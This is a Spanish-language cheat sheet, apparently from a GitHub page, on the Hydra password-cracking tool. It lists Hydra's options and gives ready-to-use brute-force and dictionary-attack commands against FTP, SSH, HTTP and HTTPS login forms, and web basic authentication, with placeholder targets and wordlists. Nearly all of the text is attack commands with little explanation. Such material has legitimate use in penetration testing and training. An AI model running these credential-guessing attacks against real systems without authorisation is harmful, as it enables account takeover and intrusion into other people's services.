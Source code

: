 ### Opciones:

- -s {port} -> Si el servicio está en un puerto diferente por default
- -l -> Especificar un usuario
- -L {userfile} -> Leer de un archivo listado de usuarios
- -p -> Especificar un password
- -P {passwordfile} -> Leer de un archivo listado de passwords
- -f -> Detener el ataque al encontrar una coincidencia
- -t {#tasks} -> Número de conexiones en paralelo por objetivo
- -M {targetsfile} -> Leer de un archivo listado de objetivos
- -o {file} -> Guardar el resultado de un archivo
- -vV -> Modo verbose, mostrando el inicio de sesión + contraseña para cada intento
### Conocer los tipos de servicios que se puedan atacar:
$ hydra -h | grep "Supported services" | tr ":" "\n" | tr " " "\n" | column -e
## Ejemplos:
### Cracking con Brute Force en FTP Server:
$ hydra -t 1 -l admin -P {PASSWORD.txt} -vV {IP-ADDRESS} > ftp
### Cracking con Brute Force en SSH Server:
$ hydra -l msfadmin -P {PASSWORD.txt} -vV {IP-ADDRESS} > ssh
### Fuerza bruta usando una wordlist para usuarios y otra para contraseñas e intentar que pase la la contraseña en cada usuario de la lista:
$ hydra -L {USER.txt} -P {PASSWORD.txt} -u -f {IP-ADDRESS} -s {PORT} http-get
### Cracking con Brute Force a un formulario de inicio de sesión por HTTPS (La data de POST esta separada con el ':') y usando un mensaje de password incorrecto:
$ $ hydra -l none -P {PASSWORD.txt} -f {IP-ADDRESS} https-post-form "/db/index.php:password=^PASS^&login=Log+In&proc_login=true:F=Incorrect password" -t 64
### Fuerza bruta a un formulario de inicio de sesión por HTTP donde al ingresar una contraseña mal regresa al mismo formulario y eso usarlo como mensaje incorrecto:
$ hydra -l admin -P {PASSWORD.txt} -f {IP-ADDRESS} -s {PORT} http-post-form "/login.php:username=^USER^&password=^PASS^:F=`<form name='login'`"
### Fuerza bruta a un formulario de inicio de sesión por HTTP donde al ingresar una contraseña correcta manda un mensaje:
$ hydra -l admin -P {PASSWORD.txt} -f {IP-ADDRESS} -s {PORT} http-post-form "/:username=^USER^&password=^PASS^:S=Dashboard"
### Ataque de Fuerza Bruta a una Authenticacion Básica que se encuentra en un directorio web:
$ hydra -l admin -P {PASSWORD.txt} -s {PORT} -f {IP-ADDRESS} http-get /{DIRECTORY}
### Cracking con Brute Force en WEB Login Server, enviando 'usuario:password':
$ hydra -C {WORDLIST-WITH-COLON-SEPARATED-FORMAT} {IP-ADDRESS} https-post-form "/login.php:username=^USER^&password=^PASS^:F=login failed"